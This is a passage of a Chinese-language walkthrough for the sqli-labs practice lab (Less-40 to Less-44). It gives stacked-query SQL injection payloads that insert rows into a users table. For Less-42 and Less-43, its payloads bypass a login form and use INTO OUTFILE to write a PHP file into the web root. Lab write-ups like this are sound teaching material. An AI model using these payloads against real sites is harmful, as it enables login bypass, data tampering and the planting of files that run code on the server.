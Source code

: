 看`mysql注入天书`作者在经常使用`insert`语句，多用熟悉一下

```sql
?id=0');insert into users values(101,'imsb',666);%23
```

![79](/medias/sqli-labs/79.png)

## Less-41

整型注入

```sql
?id=1;insert into users values(103,'Jay','');%23
```

![80](/medias/sqli-labs/80.png)

## Less-42

查看源码，题目在登录的处理方面，对`username`做了过滤，`password`没有过滤

![81](/medias/sqli-labs/81.png)


```sql
login_password=1' or 1=1;select '<?=phpinfo();?>' into outfile '/var/www/html/Less-42/1.php';%23&login_user=admin&mysubmit=Login
```

![82](/medias/sqli-labs/82.png)


## Less-43

查看源码，整体逻辑没变，参数的拼接方式换成了`('')`包裹了

![83](/medias/sqli-labs/83.png)

```sql
login_password=1') or 1=1;select '<?=phpinfo();?>' into outfile '/var/www/html/Less-43/1.php';%23&login_user=admin&mysubmit=Login
```

![84](/medias/sqli-labs/84.png)


## Less-44


登录处理还是没有修复

![85](/medias/sqli-labs/85.png)

